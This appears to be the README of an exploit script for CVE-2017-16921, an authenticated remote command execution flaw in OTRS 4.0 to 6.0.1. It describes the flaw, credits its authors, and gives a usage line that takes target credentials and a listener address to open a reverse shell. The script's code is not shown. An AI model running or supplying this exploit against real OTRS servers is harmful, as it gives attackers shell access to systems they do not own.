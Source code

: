 # OTRS-4.0.1-6.0.1 Remote Command Execution
This exploit is developed based on https://www.exploit-db.com/exploits/43853
It will perform the authentication against OTRS panel and provide a reverse shell.
Usage: python3 CVE-2017-16921.py <RHOST> <email> <password> <LHOST> <LPORT>

CVE-2017-16921:
In OTRS 6.0.x up to and including 6.0.1, OTRS 5.0.x up to and including 5.0.24, and OTRS 4.0.x up to and including 4.0.26, an attacker who is logged into OTRS as an agent can manipulate form parameters (related to PGP) and execute arbitrary shell commands with the permissions of the OTRS or web server user.

Credits to Hex_26 for the ChallengeToken retrieval function and Bæln0rn for the initial exploit.
